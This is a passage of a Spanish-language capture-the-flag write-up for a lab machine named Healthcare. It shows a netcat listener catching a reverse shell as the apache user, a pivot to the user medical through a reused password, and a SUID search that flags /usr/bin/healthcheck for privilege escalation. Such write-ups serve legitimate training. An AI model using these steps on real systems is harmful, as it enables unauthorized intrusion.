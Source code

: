 Ahora nos ponemos en escucha por el puerto 443 y cargamos el archivo en la web.

![](https://eidd3.github.io/assets/img/Healthcare1/Untitled2.png)

```bash
nc -lvp 443
listening on [any] 443 ...
192.168.1.33: inverse host lookup failed: Unknown host
connect to [192.168.1.24] from (UNKNOWN) [192.168.1.33] 43593
bash: no job control in this shell
bash-4.1$ whoami
whoami
apache
bash-4.1$
```

La contraseña de medical se puede usar para convertirse en ese usuario.

```bash
bash-4.1$ whoami
apache
bash-4.1$ su medical
Password: 
[medical@localhost home]$ whoami
medical
[medical@localhost home]$
```

## Elevando Privilegios

Si buscamos por permisos SUID vemos uno que llama la atención por el nombre parecido a la máquina.


```bash
[medical@localhost home]$ find / -perm -4000 2>/dev/null
/usr/libexec/pt_chown
/usr/lib/ssh/ssh-keysign
/usr/lib/polkit-resolve-exe-helper
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/chromium-browser/chrome-sandbox
/usr/lib/polkit-grant-helper-pam
/usr/lib/polkit-set-default-helper
/usr/sbin/fileshareset
/usr/sbin/traceroute6
/usr/sbin/usernetctl
/usr/sbin/userhelper
/usr/bin/crontab
/usr/bin/at
/usr/bin/pumount
/usr/bin/batch
/usr/bin/expiry
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/wvdial
/usr/bin/pmount
/usr/bin/sperl5.10.1
/usr/bin/gpgsm
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/passwd
/usr/bin/gpg
/usr/bin/healthcheck
/usr/bin/Xwrapper
/usr/bin/ping6
/usr/bin/chsh
```
